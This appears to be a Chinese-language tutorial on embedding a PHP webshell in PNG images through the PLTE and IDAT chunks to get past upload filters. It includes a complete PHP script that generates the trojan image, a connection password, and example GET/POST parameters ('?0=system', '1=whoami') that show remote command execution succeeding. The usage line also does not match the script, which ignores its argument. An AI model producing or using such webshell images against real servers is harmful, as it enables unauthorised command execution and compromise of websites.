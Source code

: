 00 00 00 00 49 45 4E 44 AE 42 60 82

有两种方法写入php代码：

###### 1、写入PLTE模块

写入 PLTE 数据块并不是对所有的 PNG 图片都是可行的，只有索引图像才可以成功插入 payload。附上payload图片：
![webshell](https://typora-666.oss-cn-shanghai.aliyuncs.com/imaes/202407242145860.png)

蚁剑的连接密码为1

###### 2、写入IDAT模块

运行php脚本如下：

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>
```

使用方法：

```
php IDAT_PNG.php shell.png
```

`IDAT_PNG.php`是脚本名称，`shell.png`是一张png后缀的图片，运行后会生成一个`1.png`的文件，用`010editor`查看
![image-20240725104741788](https://typora-666.oss-cn-shanghai.aliyuncs.com/imaes/202407251047952.png)

发现木马已经被写入，对0进行GET传参，对1进行POST传参。例如GET:?0=system POST:1=whoami，用hackbar传参
![image-20240725111629082](https://typora-666.oss-cn-shanghai.aliyuncs.com/imaes/202407251116318.png)

发现命令执行成功
